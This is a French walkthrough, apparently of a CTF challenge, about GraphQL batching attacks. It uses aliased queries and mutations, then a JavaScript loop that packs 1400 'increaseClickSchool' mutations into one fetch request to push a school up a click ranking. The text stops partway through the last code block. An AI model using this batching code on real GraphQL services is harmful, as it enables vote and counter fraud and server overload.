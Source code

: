 Un exemple typique d'une attaque par lots (batching attack) en GraphQL pourrait ressembler à ceci:

Imaginons que nous avons une application qui permet aux utilisateurs de chercher des livres dans une bibliothèque en ligne. L'application utilise GraphQL, et elle a une requête qui ressemble à ceci

```javascript
query {
  book(id: "123") {
    title
    author
    publishedDate
  }
}
```

Cette requête demande des informations sur un livre spécifique.

Maintenant, un attaquant pourrait tenter de surcharger le serveur en envoyant une requête qui demande des informations sur des milliers de livres à la fois, comme ceci :

```javascript
query {
  first: book(id: "1") { title }
  second: book(id: "2") { title }
  third: book(id: "3") { title }
  ...
  thousandth: book(id: "1000") { title }
}
```
Parfait, sans vouloir surcharger le serveur nous ce qui nous intéresse c’est d’incrémenter plusieurs fois le nombre de cliques en une unique requête. Go tester ça ?

```javascript
var mutationQuery = `mutation { 
    a: increaseClickSchool(schoolName: "Flag CyberSecurity School"){schoolId, nbClick}
    b: increaseClickSchool(schoolName: "Flag CyberSecurity School"){schoolId, nbClick}
  }`;
  
  fetch("/graphql", {
    method: "POST",
    headers:{
      "Content-Type": "application/json",
      "Accept": "application/json"
    },
    body: JSON.stringify({query: mutationQuery})
  });
```
Ça marche ! On a bien augmenté le nombre de clics de 2 en une seule requête. Le problème est que pour une mutation graphql, chaque instruction nécessite un nom et j’ai pas envie d’écrire 1000 noms random en C/C, 
donc petite boucle et ça part en first du classement des écoles ?

```javascript
var mutationQuery = 'mutation {';

  for(var i = 0; i < 1400; i++) {
    mutationQuery += `name${i}: increaseClickSchool(schoolName: "Flag CyberSecurity School"){schoolId, nbClick} `;
  }
  
  mutationQuery += '}';
  
  fetch("/graphql", {
    method: "POST",
    headers:{
      "Content-Type": "application/json",
      "Accept": "application/json"
    },
```
